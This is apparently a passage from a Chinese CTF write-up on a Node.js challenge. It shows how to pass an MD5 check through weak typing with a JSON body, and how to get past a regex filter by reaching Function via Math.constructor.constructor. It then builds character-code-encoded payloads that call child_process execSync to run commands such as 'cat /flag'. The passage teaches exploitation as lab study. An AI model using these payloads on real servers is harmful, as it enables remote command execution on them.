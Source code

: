 ![image-20220301191754136](Nodejs原型链污染/image-20220301191754136.png)

允许Math.xxx或者一堆字符，或者科学计数法。

### MD5

首先是MD5的绕过。使用了相加，可能就是弱类型，`app.use(bodyParser.json());`指明了允许在Content-Type是application/json时，可以以json格式解析数据，`{"e": "1+1", "first": "1", "second": [1]}`

### 正则绕过

允许Math，取Function，Function将我们获得的字符串作为函数执行

```javascript
> Math.constructor
[Function: Object]
> Math.constructor.constructor
[Function: Function]
```

可以执行

```javascript
let a=Math.constructor.constructor
console.log(a("return process.mainModule.require('child_process').execSync('dir').toString()")())
```

不允许字符出现，利用String.fromCharCode()

```python
def gen(cmd):
    s = f"return process.mainModule.require('child_process').execSync('{cmd}').toString()"
    return ','.join([str(ord(i)) for i in s])

print(gen('cat /flag'))
```

可以利用字符串拼接出string：

```javascript
> Math+1
'[object Math]1'
```
